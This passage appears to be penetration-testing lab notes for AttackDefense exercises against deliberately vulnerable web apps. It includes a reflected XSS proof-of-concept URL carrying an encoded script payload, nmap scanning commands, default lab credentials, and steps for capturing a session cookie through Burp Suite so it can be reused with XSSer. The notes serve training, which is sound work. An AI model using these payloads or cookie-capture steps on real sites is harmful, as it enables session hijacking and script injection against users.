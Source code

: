 - Open the `Final Attack` link in the browser
  - `http://192.131.167.3/index.php?page=user-poll.php&csrf-token=&choice=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&initials=2&user-poll-php-submit-button=Submit+Vote`

![](.gitbook/assets/image-20230505002955557.png)

------

## Authenticated XSS Attack - XSSer

> 🔬 [Authenticated XSS Attack with XSSer](https://attackdefense.com/challengedetails?cid=1892)
>
> - Target IP: `192.56.179.3`
> - bWAPP

```bash
ip -br -c a
	eth1@if178967  UP  192.56.179.2/24

nmap -sS -sV 192.56.179.3
```

- Login with `bug`:`bee`, select the `HTML Injection - Reflected (GET)` bug and input any value. Copy the URL
  - `http://192.56.179.3/htmli_get.php?firstname=hi&lastname=hi&form=submit`

- Activate `FoxyProxy` Plugin, start `BurpSuite`, refresh the webpage and copy the `Cookie` from the Proxy intercepted request
  - `PHPSESSID=lb3rg4q495t9sqph907sdhjgg1; security_level=0`
